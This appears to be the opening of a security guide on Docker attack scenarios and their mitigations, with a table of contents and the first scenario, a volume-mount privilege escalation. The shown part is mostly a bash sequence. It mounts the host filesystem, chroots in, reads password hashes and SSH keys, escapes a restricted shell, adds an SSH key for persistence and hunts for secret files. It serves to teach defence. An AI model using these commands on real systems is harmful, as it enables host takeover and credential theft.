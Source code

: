 # Attack Scenarios and Mitigations

## Table of Contents
1. [Volume Mount Privilege Escalation](#attack-1-volume-mount-privilege-escalation)
2. [Secret Exposure via Environment Variables](#attack-2-secret-exposure-via-environment-variables)
3. [Container Breakout via Privileged Container](#attack-3-container-breakout-via-privileged-container)
4. [Secret Theft from Git Repository](#attack-4-secret-theft-from-git-repository)
5. [Credential Stuffing from Logs](#attack-5-credential-stuffing-from-logs)
6. [Supply Chain Attack via Malicious Image](#attack-6-supply-chain-attack-via-malicious-image)

---

## Attack 1: Volume Mount Privilege Escalation

### Real-World Scenario (PDO Incident)

**Context:**
- Company had OS-level whitelisting for server access
- Development team didn't have direct SSH access
- Team had access to Docker daemon for deployment

**Attack:**
```bash
# Attacker (with Docker access) mounts entire host filesystem
docker run -it --rm -v /:/host alpine sh

# Inside container
cd /host
ls -la
# Can see entire host filesystem:
# - /host/etc/shadow (password hashes)
# - /host/root/.ssh/id_rsa (SSH keys)
# - /host/home/*/.bash_history (command history)
# - /host/var/run/docker.sock (Docker daemon)
# - /host/run/secrets (application secrets)

# Escalate privileges
chroot /host

# Now effectively root on host
cat /etc/shadow
# Can read all user password hashes

# Manipulate restricted bash
echo '#!/bin/bash' > /etc/rbash
echo 'exec /bin/bash "$@"' >> /etc/rbash
# Bypassed restricted shell

# Add SSH key for persistence
mkdir -p /root/.ssh
echo "attacker-public-key" >> /root/.ssh/authorized_keys

# Steal secrets
find / -name "*.env" -o -name "*secret*" -o -name "*password*" 2>/dev/null
```
